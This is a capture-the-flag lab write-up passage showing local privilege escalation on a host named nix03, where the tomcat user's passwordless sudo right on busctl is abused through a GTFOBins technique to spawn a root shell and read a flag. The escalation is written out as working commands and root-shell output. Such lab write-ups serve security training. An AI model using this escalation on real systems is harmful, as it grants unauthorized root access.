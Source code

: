 ### flag5.txt

same session under tomcat

```
sudo -l
Matching Defaults entries for tomcat on nix03:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on nix03:
    (root) NOPASSWD: /usr/bin/busctl
```

https://gtfobins.github.io/gtfobins/busctl/

<img width="1142" height="886" alt="image" src="https://github.com/user-attachments/assets/4b673260-b891-454c-b275-7f4386511690" />

`sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
<:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'`


```
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@nix03:/var/lib/tomcat9$
```

```
tomcat@nix03:/var/lib/tomcat9$ sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
<:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
# whoami
whoami
root
# ls
ls
conf  flag4.txt  lib  logs  policy  webapps  work
# cat flag4.txt
cat flag4.txt
LLPE{iXXXXXXXXXXXXXXXXw}
# 
```

---





















